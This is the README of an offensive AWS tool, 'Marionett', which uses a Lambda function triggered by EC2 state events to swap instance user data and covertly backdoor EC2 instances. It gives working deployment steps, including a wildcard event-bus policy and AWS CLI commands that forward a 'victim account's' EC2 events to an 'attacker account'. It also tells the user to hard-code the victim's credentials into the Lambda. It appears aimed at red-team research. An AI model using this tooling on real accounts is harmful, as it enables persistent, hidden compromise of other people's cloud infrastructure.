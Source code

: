 # Marionett

Marionett is an example of an automated lambda function that runs and swaps out user data on EC2 event machine events. It is
an example of how an attacker could semi-covertly backdoor EC2 instances passively on instance change events or actively on
creation. The API calls will stand out, but from the user's perspective, when in passive mode, there will be no obvious changes
to the instance. In active mode the instance is simply taking longer to start up, active mode requires less actions on the behalf
of the victim, but may cause issues with certain
provisioning tools. This is a well known attack, only change to what I've seen elsewhere is adding Event Bridge and Lambda.

In general this is an improved version of [UserDataSwap](https://github.com/RyanJarv/UserDataSwap).

## Active vs Passive

Marionett can run in either active or passive mode, passive is generally safer and less likely to interfere with
infrastructure provisioning however requires the instance to be shutdown through some other means, likely by the end
user. When running in the active mode Marionett will shut down the node shortly after it is initially created with
the RunInstances API. By default this is immediately however can be configured to wait up to 900 seconds after creation
to work around issues that you may run into with provisioning tools.

## Config
The config is located at `chalicelib/config.yaml` and should be edited before deploy.
### Options
* dynamodb_table
  * Name of the DynamoDB table to create to track instance state.
* sqs_queue
  * Name of the SQSQueue table to create to queue restart events when using active mode.
* active_mode
  * `True` or `False`, enables active mode.
* restart_delay
  * Used when active_mode is set to `True`. 
  * Number of seconds to wait after the RunInstances API is called before restarting the instance.
    * To work around terraform SSH provisioning complaining about an incorrect instance state this can be set to 9. 
      However, this is only useful if an Elastic IP or IPv6 address is used to connect to the instance, otherwise the
      IP will change on restart and SSH provisioning will fail.
    * To work around terraform SSH provisioning when an ElasticIP address is not used you can set this to a higher number
      to have it wait till provisioning is complete before restarting. Essentially this needs to be a best guess since
      we don't have any indication when this may be done.
* user_data
  * Our user data we want to set on the instance temporarily.
  * This will get reverted to the original metadata at the next instance stopped event.
  * `bootcmd` will run at every startup regardless of if cloud-init has run previously.

### Default Settings
```
---
dynamodb_table: UserDataSwap
sqs_queue: user-data-swap-restart-delay
active_mode: False
restart_delay: 0
user_data: |-
#cloud-config

bootcmd:
- echo HELLO FROM USER DATA SCRIPT | tee /msg > /dev/kmsg
```

## Cross-Account Access

There is a fair amount of permissions required to deploy this, which is ok if you just want to test it out. To be useful
it may make more sense to deploy in a seperate account then the one you're targeting, this way the initial set up only
requires `events:PutRule` and `events:PutTargets` permissions in the victim account. I'll likely add support for this in
the future, for now you can try the following to do this manually.

__WARNING__: This will allow any AWS account to run any action against the bus set up in the Marionett account,
probably best to set this part up in a account that isn't used for anything else. The permissive resource policy is one
of the ways to get override the lack of permissions assigned to the the put-event rule in the victim account. Doing it
this way avoids the need for `iam:PassRole` permissions in the victim account to create the event bus rules that forward
the events to the Marionette account. It may be possible to reduce these permissions, I need to do more testing here
though.

* In the Marionett account:
  * In the Marionett lambda account create a new event bus named `run-instance-trigger` and give it the following
    resource policy.
    ```
    {
      "Version": "2012-10-17",
      "Statement": [{
        "Sid": "allow_account_to_put_events",
        "Effect": "Allow",
        "Principal": "*",
        "Action": "*",
        "Resource": "<this event bus arn>"
      }]
    }
    ```
  * Set up the following rule to trigger the Marionett function with the event config below.
     ```
      {
        "source": ["aws.ec2"],
        "detail-type": ["EC2 Instance State-change Notification"],
        "detail": {
          "state": ["stopped"]
        }
      }
     ```
  * If active mode is used add a second rule with the following.
     ```
     {
       "source": ["aws.ec2"],
       "detail": {
         "eventSource": ["ec2.amazonaws.com"],
         "eventName": ["RunInstances"]
       }
     }
     ```
* In the victim account:
  * Create the run-instances event trigger:
    ```
    aws --profile victim-account events put-rule \
      --name run-instance-trigger \
      --state ENABLED \
      --event-bus-name default \
      --event-pattern '{
          "source": ["aws.ec2"],
          "detail": {      
            "eventSource": ["ec2.amazonaws.com"],
            "eventName": ["RunInstances"]
          }
        }'
    ```
  * Add a target to forward to the event-bus in the Marionett account:
    ```
    aws events put-targets --rule run-instance-trigger \
      --event-bus-name default \
      --targets "Id"="1","Arn"="arn:aws:events:<region>:<attacker account #>:event-bus/run-instance-trigger"
    ```
* You should see the Marionett triggered when a instance is created in the victim account now.
  * Update the lambda to hard code the credentials needed to make EC2 related calls in the vicitims account and deploy.

## More Info

For more info you can see my post on [Backdooring user data](https://blog.ryanjarv.sh/2020/11/27/backdooring-user-data.html)

## Related Attacks

For another similar attack (Update: AWS now prevents this in most accounts) with different pros/cons take a look at 
[EC2FakeIMDS](https://github.com/RyanJarv/EC2FakeImds). The talk and slides going over these two can be found on
[my blog](https://blog.ryanjarv.sh/2020/12/04/deja-vu-in-the-cloud.html).

## Requirements

* AWS CLI already configured with Administrator permission for the deployment account (which isn't necessarily the
  targeted account, see the Cross Account section for more info).
* Recent version of [Python](https://www.python.org/)
* [Chalice](https://github.com/aws/chalice)
* [AWS CLI](https://pypi.org/project/awscli/)

## Setup process

### Installing dependencies & building the target 

```shell
python3 -m venv venv
source venv/bin/activate
pip install chalice boto3
```

## Deployment

```bash
make deploy/infra
```

## Wish List
* Target individual instances or tags

### Testing

TODO
